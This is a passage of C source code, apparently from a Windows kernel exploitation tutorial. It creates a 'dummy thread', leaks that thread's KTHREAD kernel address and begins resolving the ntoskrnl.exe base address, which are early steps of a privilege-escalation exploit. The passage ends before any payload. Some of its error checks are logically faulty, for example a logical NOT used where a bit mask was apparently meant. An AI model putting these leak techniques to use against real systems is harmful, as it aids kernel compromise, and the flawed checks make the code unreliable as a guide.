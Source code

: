 ```c
		goto exit;
	}

	//
	// Print update
	//
	printf("[+] Created the \"dummy thread\"!\n");

	//
	// Invoke leakKTHREAD()
	//
	ULONG64 kthread = leakKTHREAD(getthreadHandle);

	//
	// Error handling (Negative value? NtQuerySystemInformation returns a negative NTSTATUS if it fails)
	//
	if ((!kthread & 0x80000000) == 0x80000000)
	{
		//
		// Print update
		// kthread is an NTSTATUS code if execution reaches here
		//
		printf("[-] Error! Unable to leak the KTHREAD object of the \"dummy thread\". Error: 0x%llx\n", kthread);

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Error handling (kthread isn't negative - but is it a kernel-mode address?)
	//
	else if ((!kthread & 0xffff00000000000) == 0xffff00000000000 || ((!kthread & 0xfffff00000000000) == 0xfffff00000000000))
	{
		//
		// Print update
		// kthread is an NTSTATUS code if execution reaches here
		//
		printf("[-] Error! Unable to leak the KTHREAD object of the \"dummy thread\". Error: 0x%llx\n", kthread);

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Print update
	//
	printf("[+] \"Dummy thread\" KTHREAD object: 0x%llx\n", kthread);

	//
	// Invoke resolventBase() to retrieve the load address of ntoskrnl.exe
	//
	ULONG64 ntBase = resolventBase();

	//
	// Error handling
```